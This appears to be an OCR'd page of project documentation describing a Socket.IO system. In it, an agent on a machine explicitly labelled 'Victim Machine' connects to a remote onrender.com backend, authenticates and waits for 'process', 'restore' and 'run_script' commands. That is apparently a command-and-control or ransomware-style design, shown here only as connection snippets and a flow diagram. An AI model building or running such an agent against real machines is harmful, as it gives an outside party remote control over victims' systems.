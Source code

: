 **Key File:** `site/frontend/src/EliteUI.jsx`
```javascript
// Line 48 - Frontend initializes Socket.IO client
useEffect(() => {
  socketRef.current = initSocket({
    apiBase: API_BASE,
    onStatus: (st) => setSocketStatus(st),
    onScriptOutput: (payload) => setLastOutput(payload)
  })
}, [API_BASE])
```

---

### **3. Agent Initialization** (Victim Machine)

```
Agent starts: python3 py_simple/agent_sync.py --backend https://sample-2ang.onrender.com
  ↓
agent_sync.py line 138: res = session.post(f"{backend}/publickey", ...)
  ↓
Gets device_token from backend
  ↓
agent_sync.py line 170: sio = socketio.Client(...)
  ↓
agent_sync.py line 357: sio.connect(backend, transports=['websocket', 'polling'])
  ↓
Agent Socket.IO connected!
  ↓
agent_sync.py line 180: sio.emit("authenticate", {"device_token": device_token})
  ↓
Agent listens for: 'process', 'restore', 'run_script'
```

**Key File:** `py_simple/agent_sync.py`
```python
# Line 170 - Agent creates Socket.IO client
sio = socketio.Client(
    reconnection=True,
    http_session=session,
)

# Line 357 - Agent connects to backend
sio.connect(
    socket_base,
    transports=["websocket", "polling"],
    socketio_path='socket.io'
)
```

---

## 📡 Complete Socket.IO Event Flow
